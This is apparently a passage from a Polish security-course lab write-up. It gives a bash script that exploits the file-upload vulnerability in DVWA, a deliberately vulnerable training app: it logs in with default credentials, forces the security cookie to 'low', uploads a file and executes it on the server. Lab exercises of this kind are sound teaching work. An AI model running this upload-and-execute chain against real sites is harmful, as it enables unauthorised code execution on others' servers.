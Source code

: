 ```bash
if [[ $# -ne 2 ]]; then
  display_usage
  exit 1
fi

get_cookie() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=low&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/low/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

upload_file() {
  curl -s -x "http://127.0.0.1:8080" -X POST "$1/vulnerabilities/upload/" -b dvwa.cookie -F "uploaded=@$2;filename=$2" > /dev/null
}

execute_payload() {
  curl -sS -x "http://127.0.0.1:8080" -b dvwa.cookie "$1/hackable/uploads/$2"
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"
upload_file "$1" "$2"
execute_payload "$1" "$2"
```

#### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/upload_low.gif "Po uruchomieniu skrypt wgrywa wskazany plik na serwer i zwraca jego wynik odwołując się bezpośrednio do pliku")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```


